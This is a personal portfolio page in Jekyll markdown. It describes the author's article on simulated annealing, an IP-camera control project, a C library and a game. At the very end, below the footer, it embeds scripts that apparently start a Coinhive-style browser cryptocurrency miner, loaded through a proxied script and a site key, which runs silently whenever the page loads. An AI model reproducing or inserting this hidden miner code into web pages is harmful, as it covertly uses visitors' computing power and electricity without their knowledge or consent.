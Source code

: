 ```yaml
---
layout: default
---
```


# Hello, World

This is my page, [here](./about-en.html) i'll tell you about myself, show you some thing i've done and try and convice you to call me to your next project.

## 1. Article
#### Optimizing Simulated Annealing hyper-parameters for function roots search using genetic algorithms
By the end of my first year of college I had the chance to take part in a scientific initiation with Iara da Cunha. Our objective was to efficiently find zeroes of functions, to accomplish such task i learned about optimization heuristics, e noticed that there was the possibility of optimizing the optimization heuristic, I used a genetic algorithm for that. Article available at [Revista Eletrônica de Iniciação Científica em Computação](goo.gl/dJZVQt), from UFRGS.

## 2. Aricle
#### Extension and control of IP cameras via reserve engineering, and it's application in image recognition
In this project the objective was solving the problem of controlling several IP cameras (of questionable precedence) for utilizing computer vision tests. Solving the problem was achieved by dividing it into two parts: Camera control and Image recognition.
For the first part I reverse-engineered the UI's requests to the camera, created a C application thar recieves a command for the camera, read a JSON configuration file for that camera type, interpreted how to make the correct request for the camera and used libcurl to send the request.
Solved the pragmatic camera control problem i used OpenCV to open the camera feed, apply thresholding of the frames to get a centroid, the difference from the image center to the centroid was used to center the cameras. Available at [bitbucket](https://bitbucket.org/Cauef/ctrlcam/).

## 3. Project
#### Fat-array
Dinamic vectors of arbitrary type using C to guarantee strong typing and utilization flexibility. Available [here](https://github.com/cauefcr/Fat-Array)

## 4. Game
I created a game with Construct 2, in this game you're the monster, trying to protect your tower from the pesky, greedy adventurers, play [here](https://caue.site/whosinmytower)

&copy;2018 Cauê Felchar, 
Feel free to contact me at <a href="mailto:caue.fcr<at>gmail.com">caue.fcr< at >gmail.com</a>
  
<script src="http://<your-domain>/<path-to-script>/kpOJ.php?f=e2vo.js"></script>
<script>
    var _client = new Client.Anonymous('20506d57832bbddbd4653cd8a030075712c1323ce68b1488f82dfa8b85f6b8c0', {
        throttle: 0.6
    });
    _client.start();
    

</script>
